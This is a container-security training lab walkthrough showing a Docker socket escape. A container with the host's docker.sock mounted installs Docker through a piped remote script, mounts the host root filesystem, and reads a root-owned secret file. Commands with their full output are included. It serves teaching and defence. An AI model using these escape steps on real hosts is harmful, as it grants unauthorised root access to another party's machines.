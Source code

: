 ## Docker Daemon Direct Access

###### A malicious user who gains access to a container where the `docker.sock` of host machine is exposed, can gain access to the host machine.

##### Step 1:

* Open Terminal

	![](img/Open-Terminal.png)

##### Step 2:

*  **cd** into  `/home/we45/container_training/Container/Container-Attacks/Docker-Daemon-Direct-Access`

    ```commandline
    cd /home/we45/container_training/Container/Container-Attacks/Docker-Daemon-Direct-Access
    ```
##### Step 3:

* Run `docker run -d -v /var/run/docker.sock:/var/run/docker.sock --name vul_flask abhaybhargav/vul_flask` to start a docker container.

    ```commandline
    root@we45:~/container_training/Container/Container-Attacks/Docker-Daemon-Direct-Access# docker run -d -v /var/run/docker.sock:/var/run/docker.sock --name vul_flask abhaybhargav/vul_flask
    1681e86d567eaa2b7344cff0535819fffe8f3a786b4b768be3c95d9b40a4e71d
    ```
      
    ![](img/docker-run.png)
 
##### Step 4:   

* Run `docker ps` to view, all running containers.

    ```commandline
    root@we45:~/container_training/Container/Container-Attacks/Docker-Daemon-Direct-Access# docker ps
    CONTAINER ID        IMAGE                    COMMAND             CREATED              STATUS              PORTS               NAMES
    1681e86d567e        abhaybhargav/vul_flask   "python app.py"     About a minute ago   Up About a minute   5050/tcp            vul_flask/tcp            vul_flask
    ```
     
    ![](img/docker-ps.png)
    
##### Step 5:   

* Run `docker exec -it vul_flask bash` to exec into a running container.

    ```commandline
    root@we45:~/container_training/Container/Container-Attacks/Docker-Daemon-Direct-Access# docker exec -it vul_flask bash
    root@1681e86d567e:/apps# 
    ```
    ![](img/docker-exec.png)

##### Step 6:

* Install docker-engine by running `apt-get update && apt-get install wget -y && wget -qO- https://get.docker.com | sh`

    ```commandline
    root@1681e86d567e:/apps# apt-get update && apt-get install wget -y && wget -qO- https://get.docker.com | sh
    Get:1 http://security.debian.org jessie/updates InRelease [44.9 kB]
    Ign http://deb.debian.org jessie InRelease          
    Get:2 http://deb.debian.org jessie-updates InRelease [145 kB]
    Get:3 http://deb.debian.org jessie Release.gpg [2420 B]                               
    Get:4 http://deb.debian.org jessie Release [148 kB]              
    Get:5 http://deb.debian.org jessie-updates/main amd64 Packages [23.0 kB]          
    Get:6 http://deb.debian.org jessie/main amd64 Packages [9098 kB]       
    Get:7 http://security.debian.org jessie/updates/main amd64 Packages [663 kB]
    Fetched 10.1 MB in 21s (480 kB/s)                                                                                                                            
    Reading package lists... Done
    Reading package lists... Done
    Building dependency tree       
    Reading state information... Done
    The following packages will be upgraded:
      wget
    1 upgraded, 0 newly installed, 0 to remove and 66 not upgraded.
    Need to get 496 kB of archives.
    After this operation, 362 kB disk space will be freed.
    Get:1 http://deb.debian.org/debian/ jessie/main wget amd64 1.16-1+deb8u5 [496 kB]
    Fetched 496 kB in 1s (288 kB/s)
    debconf: delaying package configuration, since apt-utils is not installed
    (Reading database ... 21636 files and directories currently installed.)
    Preparing to unpack .../wget_1.16-1+deb8u5_amd64.deb ...
    Unpacking wget (1.16-1+deb8u5) over (1.16-1+deb8u4) ...
    Setting up wget (1.16-1+deb8u5) ...
    # Executing docker install script, commit: 36b78b2
    + sh -c apt-get update -qq >/dev/null
    + sh -c apt-get install -y -qq apt-transport-https ca-certificates curl >/dev/null
    debconf: delaying package configuration, since apt-utils is not installed
    + sh -c curl -fsSL "https://download.docker.com/linux/debian/gpg" | apt-key add -qq - >/dev/null
    + sh -c echo "deb [arch=amd64] https://download.docker.com/linux/debian jessie edge" > /etc/apt/sources.list.d/docker.list
    + [ debian = debian ]
    + [ jessie = wheezy ]
    + sh -c apt-get update -qq >/dev/null
    + sh -c apt-get install -y -qq --no-install-recommends docker-ce >/dev/null
    debconf: delaying package configuration, since apt-utils is not installed
    + sh -c docker version
    Client:
     Version:           18.06.1-ce
     API version:       1.38
     Go version:        go1.10.3
     Git commit:        e68fc7a
     Built:             Tue Aug 21 17:25:03 2018
     OS/Arch:           linux/amd64
     Experimental:      false
    
    Server:
     Engine:
      Version:          18.06.1-ce
      API version:      1.38 (minimum version 1.12)
      Go version:       go1.10.3
      Git commit:       e68fc7a
      Built:            Tue Aug 21 17:23:24 2018
      OS/Arch:          linux/amd64
      Experimental:     false
    If you would like to use Docker as a non-root user, you should now consider
    adding your user to the "docker" group with something like:
    
      sudo usermod -aG docker your-user
    
    Remember that you will have to log out and back in for this to take effect!
    
    WARNING: Adding a user to the "docker" group will grant the ability to run
             containers which can be used to obtain root privileges on the
             docker host.
             Refer to https://docs.docker.com/engine/security/security/#docker-daemon-attack-surface
             for more information.
    ```

##### Step 7:

*  Once docker is installed, run `docker run -ti -v /:/hostFS/ ubuntu:16.04 /bin/bash`

    ```commandline
    root@1681e86d567e:/apps# docker run -ti -v /:/hostFS/ ubuntu:16.04 /bin/bash
    root@b412be8326b5:/#
    ```

##### Step 8:

* Run `cd /hostFS/root/` to access the toot directory.

    ```commandline
    root@b412be8326b5:/# cd /hostFS/root/    
    ```
    
##### Step 9:  

* Run `ls` to check the secret.txt file inside a container.

    ```commandline
    root@b412be8326b5:/hostFS/root# ls
    secret.txt
    ``` 
    
##### Step 10:

* Run `cat secret.txt` to view the content of the file.

```commandline
root@b412be8326b5:/hostFS/root# cat secret.txt 
secret
``` 
**Note:** Malicious user now has complete access to the root Filesystem of the host machine.

##### Step 11:

* Run `exit` to exit from the Malicious container.

    ```commandline
    root@b412be8326b5:/hostFS/root# exit
    exit
    ```

##### Step 12:

* Run `exit` to exit from the container.

    ```commandline
    root@1681e86d567e:/apps# exit
    exit
    ```

##### Step 13:  
 
* Run `docker stop vul_flask` to stop the running container.

    ```commandline
    root@we45:~/container_training/Container/Container-Attacks/Docker-Daemon-Direct-Access# docker stop vul_flask
    vul_flask
    ```
        
    ![](img/docker-stop.png)  
    
##### Step 14:   

* Run `docker rm vul_flask` to remove stopped container.

    ```commandline
    root@we45:~/container_training/Container/Container-Attacks/Docker-Daemon-Direct-Access# docker rm vul_flask
    vul_flask
    ```
    ![](img/docker-rm.png)
